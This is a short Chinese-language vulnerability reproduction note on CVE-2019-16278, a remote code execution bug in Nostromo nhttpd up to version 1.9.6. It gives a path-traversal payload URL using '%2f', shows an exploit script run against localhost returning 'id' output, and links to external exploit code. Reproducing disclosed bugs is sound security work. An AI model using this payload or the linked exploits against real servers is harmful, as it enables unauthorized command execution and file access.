 # [漏洞复现]：CVE-2019-16278 Nostromo web server RCE
### 漏洞描述

Nostromo web server(nhttpd)是一个开源的web服务器，在Unix系统非常流行。


漏洞原因是web服务在对URL进行检查是在URL被解码前，攻击者可以将`/`转换为`%2f`就可绕过检查，之前出现过类似漏洞CVE-2011-0751，POC如下：
```
http://www.example.org/..%2flogs/access_log
```

**利用前提**

Nostromo version <= 1.9.6

### 漏洞复现
**Python POC**https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py

```
mark@mark-Pc:~/nhttpd-exploits$ ./CVE-2019-16278.sh 127.0.0.1 80 id
uid=1000(mark) gid=1000(mark) groups=1000(mark),0(root)

```

EXP: https://git.sp0re.sh/sp0re/Nhttpd-exploits


**参考**

https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html?utm_source=webcode.ca&utm_medium=web&utm_campaign=twitter
https://nosec.org/home/detail/3074.html